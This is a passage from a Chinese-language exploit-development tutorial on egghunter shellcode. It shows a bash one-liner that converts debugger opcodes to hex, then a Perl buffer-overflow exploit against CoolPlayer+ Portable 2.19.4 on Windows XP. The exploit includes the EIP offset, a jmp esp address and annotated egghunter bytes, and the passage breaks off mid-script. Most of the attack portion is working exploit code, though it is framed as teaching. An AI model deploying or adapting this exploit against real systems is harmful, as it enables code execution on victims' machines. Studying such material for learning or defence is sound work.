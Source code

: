 首先，我们需要获取汇编指令的操作码并将它们转换为我们的 Perl 脚本的十六进制格式。根据您编写 Egghunter 的方式（MASM、C 等），您可以通过不同的方式提取相关的操作码。对于这个演示，我将在我的 Egghunter 可执行文件（从我之前提供的 C 代码编译）运行时从 Immunity 中获取它们。

![7](part5/7.png)

如果您使用此方法，您可以将其复制到剪贴板或将其导出到文件，然后使用命令行脚本将其转换为脚本友好的十六进制，例如

```bash
root@kali:/demos# cat egghunter_opcode.txt | cut -c14-28 | tr -d '\040\072\012\015' | sed -e 's/\(..\)/\1\\x/g' -e 's/^/$egghunter = \"\\x/' -e 's/.\{2\}$/";/'
```

这将产生以下输出

```bash
$egghunter = "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x43\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x50\x57\x4E\x44\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7";
```

出于本演示的目的，我将用注释分解十六进制，以便您可以轻松地将其与相应的汇编指令匹配。在这里，它被合并到我们在第 4 部分中编写的漏洞利用脚本中

```perl
#!/usr/bin/perl
###########################################################################################
# Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
# Date: 12-24-2013
# Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
# Vulnerable Software: CoolPlayer+ Portable v2.19.4
# Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
# Tested On: Windows XP SP3
# Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
# Details: Egghunter Demo
###########################################################################################

my $buffsize = 10000; # set consistent buffer size

my $junk = "\x90" x 260; # nops to slide into $jmp; offset to eip overwrite at 260
my $eip = pack('V',0x7c86467b); # jmp esp [kernel32.dll]
my $egghunter = "\x66\x81\xCA\xFF\x0F"; # or dx,0x0fff
$egghunter = $egghunter . "\x42"; # inc edx by 1
$egghunter = $egghunter . "\x52"; # push edx to t
$egghunter = $egghunter . "\x6A\x43"; # push byte +0x43
$egghunter = $egghunter . "\x58"; # pop eax
$egghunter = $egghunter . "\xCD\x2E"; # int 0x2e
$egghunter = $egghunter . "\x3C\x05"; # cmp al,0x5
$egghunter = $egghunter . "\x5A"; # pop edx
$egghunter = $egghunter . "\x74\xEF"; # jz 0x0
$egghunter = $egghunter . "\xB8\x50\x57\x4e\x44"; # mov eax,PWND
$egghunter = $egghunter . "\x8B\xFA"; # mov edi,edx
$egghunter = $egghunter . "\xAF"; # scasd
$egghunter = $egghunter . "\x75\xEA"; # jnz 0x5
$egghunter = $egghunter . "\xAF"; # scasd
```
